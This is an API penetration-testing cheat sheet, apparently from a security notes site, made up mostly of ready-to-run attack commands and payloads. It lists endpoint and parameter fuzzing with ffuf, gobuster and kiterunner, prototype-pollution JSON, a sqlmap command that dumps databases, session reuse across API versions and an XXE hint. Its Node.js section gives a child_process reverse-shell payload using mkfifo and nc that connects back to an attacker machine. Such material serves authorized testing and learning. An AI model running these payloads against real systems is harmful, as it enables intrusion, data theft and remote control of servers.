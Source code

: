 ```yaml
---
title: API Pentesting
description: Application Programming Interface (API) is for communicating with each computer. There are several types such as Web API, REST API, RESTful API.
tags:
    - Web
refs:
    - https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44
date: 2023-07-09
draft: false
---
```


## Change Methods

```sh
# Methods
GET, POST, PUT, DELETE, OPTIONS, HEAD, PATCH, INVENTED
```

<br />

## Endpoint Discovery

Try to enumerate endpoints while changing HTTP methods like GET, POST, OPTIONS, etc.

```sh
/api/?xml
/api?xml
/api/v1?xml
/api/v1/user?xml

# Web Service Description Language
/api/?wsdl

# Versions
/api/v1/user
/api/v2/user
/api/v3/user

# Wildcards
/api/v2/user/*
/api/v2/user/posts/*
/api/v2/users/*

# Path traversal
/api/v1/post/..\private
```

### Automation

```sh
# Dirb
dirb https://vulnerable.com/ endpoints.txt

# Ffuf
ffuf -u https://vulnerable.com/FUZZ -w endpoints.txt
ffuf -u https://vulnerable.com/FUZZ -X POST -w endpoints.txt
ffuf -u https://vulnerable.com/api/FUZZ -w wordlist.txt
ffuf -u https://example.com/api/?FUZZ=test -w wordlist.txt

# Gobuster
gobuster dir -u https://vulnerable.com/ -w endpoints.txt

# Kiterunner
# -A: wordlist type (ex. first 20000 words)
# -x: max connection per host (default: 3)
kr scan https://vulnerable.com/api -A=apiroutes-210228:20000 -x 10
kr scan https://vulnerable.com/api -A=apiroutes-210228:20000 -x 10 --fail-status-codes 401,404
kr scan https://vulnerable.com:8443/api -A=apiroutes-210228:20000 -x 10
```

[This wordlist](https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d){:target="_blank"} is useful for endpoints.

<br />

## GET Parameters

```sh
/api/v1/user?id=test
/api/v1/user?name=test
/api/v1/user?uuid=test
/api/v1/status?live=test
/api/v1/status?verbose=test
```

### Parameter Fuzzing

```sh
# Key
ffuf -u https://vulnerable.com/api/items?FUZZ=test -w wordlist.txt
ffuf -u https://vulnerable.com/api/items?FUZZ=test -w wordlist.txt -fs 120
ffuf -X POST -u https://vulnerable.com/api/items?FUZZ=test -w wordlist.txt
ffuf -X POST -u https://vulnerable.com/api/items?FUZZ=test -w wordlist.txt -fs 120

# Value
ffuf -u https://vulenrable.com/api/items?test=FUZZ -w wordlist.xt
ffuf -u https://vulnerable.com/api/items?test=FUZZ -w wordlist.txt -fs 120
ffuf -X POST -u https://vulnerable.com/api/items?test=FUZZ -w wordlist.txt
ffuf -X POST -u https://vulnerable.com/api/items?test=FUZZ -w wordlist.txt -fs 120
```

<br />

## Sending Unexpected Data

We might be able to find anything by sending unexpected data on POST or PUT method.

```json
{"email": "test@test.com"}
{"email": true}
{"email": 1}
{"email": -1}
{"email": ["test@test.com", true]}
{"email": {"admin": true}}

// Prototype Pollution
{"email": "test@test.com", "__proto__": {"admin": true}}
{"email": {"__proto__": {"admin": true}}}
```

<br />

## XSS

If we can send post (or put) requests to API endpoints, we may be able to insert payloads and the result will be reflected as the output.  
[XSS](/exploit/web/security-risk/xss/) can be used for this exploitation.

<br />

## SQL Injection

```sh
sqlmap -u http://vulnerable.com/api/v2/fetch/?post=1 --dump --batch
```

<br />

## Node.js Remote Code Execution (RCE)

If the website uses the Node (e.g. Express), we may be able to execute the JavaScript function.

```sh
# Get current working directory in the website
/api/?key=process.cwd()
```

### Reverse Shell

We may be able to execute reverse shell using "child_process".  
First off, start listener for getting a shell in local machine.

```sh
nc -lvnp 4444
```

Then send request to the website with the parameter which executes reverse shell using child_process.

```sh
/api/?key=require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 4444 >/tmp/f')
```

We should see that we get a shell in local terminal. 

<br />

## Same Session Across Multiple Versions and Instances

For example, assumed the website has two endpoints such as "/api/v1/user/login", "/api/v2/user/login".  
"v1" uses "X-Token" and "v2" uses "X-Session".  
After login to "v1", you may be able to get access "v2" using the session key/value of "v1".

```sh
X-Token: fc38ab5f5ae41072778d852023f9ee26
X-Session: fc38ab5f5ae41072778d852023f9ee26
```

<br />

## XXE

```bash
GET /api/product/1?xml HTTP/1.1
```

If the website displays the response in XML, we might be able to XXE.